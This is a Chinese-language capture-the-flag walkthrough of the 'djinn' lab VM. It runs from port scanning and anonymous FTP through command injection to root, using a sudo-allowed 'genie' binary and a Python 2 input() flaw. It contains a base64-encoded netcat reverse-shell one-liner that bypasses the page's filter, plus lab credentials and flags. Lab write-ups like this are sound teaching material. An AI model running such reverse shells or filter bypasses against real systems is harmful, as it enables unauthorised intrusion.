








## 端口扫描

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT -sCV -O  -p21,1337,7331 192.168.1.100
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-02 20:24 CST
Nmap scan report for 192.168.1.100
Host is up (0.00068s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              11 Oct 20  2019 creds.txt
| -rw-r--r--    1 0        0             128 Oct 21  2019 game.txt
|_-rw-r--r--    1 0        0             113 Oct 21  2019 message.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.1.107
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
1337/tcp open  waste?
| fingerprint-strings:
|   NULL:
|     ____ _____ _
|     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___
|     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
|     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
|     Let's see how good you are with simple maths
|     Answer my questions 1000 times and I'll give you your gift.
|     '+', 3)
|   RPCCheck:
|     ____ _____ _
|     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___
|     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
|     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
|     Let's see how good you are with simple maths
|     Answer my questions 1000 times and I'll give you your gift.
|_    '+', 4)
7331/tcp open  http    Werkzeug httpd 0.16.0 (Python 2.7.15+)
|_http-server-header: Werkzeug/0.16.0 Python/2.7.15+
|_http-title: Lost in space
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.94SVN%I=7%D=4/2%Time=660BF8F1%P=x86_64-pc-linux-gnu%r(
SF:NULL,1BC,"\x20\x20____\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_____\x20_\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20/\x20___\|\x20_
SF:_\x20_\x20_\x20__\x20___\x20\x20\x20___\x20\x20\|_\x20\x20\x20_\(_\)_\x
SF:20__\x20___\x20\x20\x20___\x20\n\|\x20\|\x20\x20_\x20/\x20_`\x20\|\x20'
SF:_\x20`\x20_\x20\\\x20/\x20_\x20\\\x20\x20\x20\|\x20\|\x20\|\x20\|\x20'_
SF:\x20`\x20_\x20\\\x20/\x20_\x20\\\n\|\x20\|_\|\x20\|\x20\(_\|\x20\|\x20\
SF:|\x20\|\x20\|\x20\|\x20\|\x20\x20__/\x20\x20\x20\|\x20\|\x20\|\x20\|\x2
SF:0\|\x20\|\x20\|\x20\|\x20\|\x20\x20__/\n\x20\\____\|\\__,_\|_\|\x20\|_\
SF:|\x20\|_\|\\___\|\x20\x20\x20\|_\|\x20\|_\|_\|\x20\|_\|\x20\|_\|\\___\|
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\n\nLet's\x20see\x20how\x20good\x20you\x20are\x20with\x20simple\x20mat
SF:hs\nAnswer\x20my\x20questions\x201000\x20times\x20and\x20I'll\x20give\x
SF:20you\x20your\x20gift\.\n\(6,\x20'\+',\x203\)\n>\x20")%r(RPCCheck,1BC,"
SF:\x20\x20____\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20_____\x20_\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20/\x20___\|\x20__\x20_\x20
SF:_\x20__\x20___\x20\x20\x20___\x20\x20\|_\x20\x20\x20_\(_\)_\x20__\x20__
SF:_\x20\x20\x20___\x20\n\|\x20\|\x20\x20_\x20/\x20_`\x20\|\x20'_\x20`\x20
SF:_\x20\\\x20/\x20_\x20\\\x20\x20\x20\|\x20\|\x20\|\x20\|\x20'_\x20`\x20_
SF:\x20\\\x20/\x20_\x20\\\n\|\x20\|_\|\x20\|\x20\(_\|\x20\|\x20\|\x20\|\x2
SF:0\|\x20\|\x20\|\x20\x20__/\x20\x20\x20\|\x20\|\x20\|\x20\|\x20\|\x20\|\
SF:x20\|\x20\|\x20\|\x20\x20__/\n\x20\\____\|\\__,_\|_\|\x20\|_\|\x20\|_\|
SF:\\___\|\x20\x20\x20\|_\|\x20\|_\|_\|\x20\|_\|\x20\|_\|\\___\|\n\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\nLet's
SF:\x20see\x20how\x20good\x20you\x20are\x20with\x20simple\x20maths\nAnswer
SF:\x20my\x20questions\x201000\x20times\x20and\x20I'll\x20give\x20you\x20y
SF:our\x20gift\.\n\(7,\x20'\+',\x204\)\n>\x20");
MAC Address: 08:00:27:4B:27:67 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP
Running: Linux 2.4.X|2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22
OS details: Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22)
Network Distance: 1 hop
Service Info: OS: Unix

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.65 seconds
```

## web渗透


ftp可以匿名登陆那就直接拿信息

简单提示了一下
有个1337端口，现在还打不开

目录扫描一下


一个执行命令的页面

这虽然403了，但是命令都成功执行了呀，回显拼接在了url中
这地方有过滤
测试发现大部分特殊字符都不行
这里用base64绕过

echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxiYXNoIC1pIDI+JjF8bmMgMTkyLjE2OC4xLjEwNyA0NDQ0ID4vdG1wL2Y=" |base64 -d|bash

## 提权

```bash
www-data@djinn:/home/nitish/.dev$ cat cre
cat creds.txt
nitish:p4ssw0rdStr3r0n9
www-data@djinn:/home/nitish/.dev$ su nitish
su nitish
Password: p4ssw0rdStr3r0n9

nitish@djinn:~/.dev$ cd ../
cd ../
nitish@djinn:~$ cat usr
cat usr
cat: usr: No such file or directory
nitish@djinn:~$ cat user.txt
cat user.txt
10aay8289ptgguy1pvfa73alzusyyx3c
```
到用户nitish家目录得到用户密码
切换到nitish用户

用户能执行此命令
那就用它提权？
```bash
nitish@djinn:~$ sudo -u sam  genie -h
usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish

I know you've came to me bearing wishes in mind. So go ahead make your wishes.

positional arguments:
  wish                  Enter your wish

optional arguments:
  -h, --help            show this help message and exit
  -g, --god             pass the wish to god
  -p SHELL, --shell SHELL
                        Gives you shell
  -e EXEC, --exec EXEC  execute command
```

结果好像行不通
虽然提示符是#
但是不能执行任何命令，没有任何作用

man这个函数可以找到一个参数，-h是看不到的
```sh
nitish@djinn:/usr/bin$ sudo -u sam  genie -cmd "god"
my man!!
$ whoami
sam
$
```
这就切换成sam用户了
在用户家目录下找到pyc文件
下载到本机反编译
```bash
#!/usr/bin/env python
# visit https://tool.lu/pyc/ for more information
# Version: Python 2.7

from getpass import getuser
from os import system
from random import randint

def naughtyboi():
    print 'Working on it!! '


def guessit():
    num = randint(1, 101)
    print 'Choose a number between 1 to 100: '
    s = input('Enter your number: ')
    if s == num:
        system('/bin/sh')
    else:
        print 'Better Luck next time'


def readfiles():
    user = getuser()
    path = input('Enter the full of the file to read: ')
    print 'User %s is not allowed to read %s' % (user, path)


def options():
    print 'What do you want to do ?'
    print '1 - Be naughty'
    print '2 - Guess the number'
    print '3 - Read some damn files'
    print '4 - Work'
    choice = int(input('Enter your choice: '))
    return choice


def main(op):
    if op == 1:
        naughtyboi()
    elif op == 2:
        guessit()
    elif op == 3:
        readfiles()
    elif op == 4:
        print 'work your ass off!!'
    else:
        print 'Do something better with your life'

if __name__ == '__main__':
    main(options())

```
```bash
sam@djinn:/home/sam$ sudo -l
Matching Defaults entries for sam on djinn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sam may run the following commands on djinn:
    (root) NOPASSWD: /root/lago
sam@djinn:/home/sam$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2^[[A


Man Stop hacking the damn input menu
Do something better with your life
sam@djinn:/home/sam$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
Choose a number between 1 to 100:
Enter your number: 3
Better Luck next time
```

很明显就是对应的这个文件
根据源码提示
system('/bin/sh')
猜对了就能得到root的sh
那么就开始猜吧（bush
```bash
def guessit():
    num = randint(1, 101)
    print 'Choose a number between 1 to 100: '
    s = input('Enter your number: ')
    if s == num:
        system('/bin/sh')
    else:
        print 'Better Luck next time'
```
s没有转义为int
直接输入num就可以了
```bash
# /root/proof.sh
    _                        _             _ _ _
   / \   _ __ ___   __ _ ___(_)_ __   __ _| | | |
  / _ \ | '_ ` _ \ / _` |_  / | '_ \ / _` | | | |
 / ___ \| | | | | | (_| |/ /| | | | | (_| |_|_|_|
/_/   \_\_| |_| |_|\__,_/___|_|_| |_|\__, (_|_|_)
                                     |___/
djinn pwned...
__________________________________________________________________________

Proof: 33eur2wjdmq80z47nyy4fx54bnlg3ibc
Path: /home/sam
Date: Tue Apr 2 19:23:00 IST 2024
Whoami: root
__________________________________________________________________________

By @0xmzfr

Thanks to my fellow teammates in @m0tl3ycr3w for betatesting! :-)

```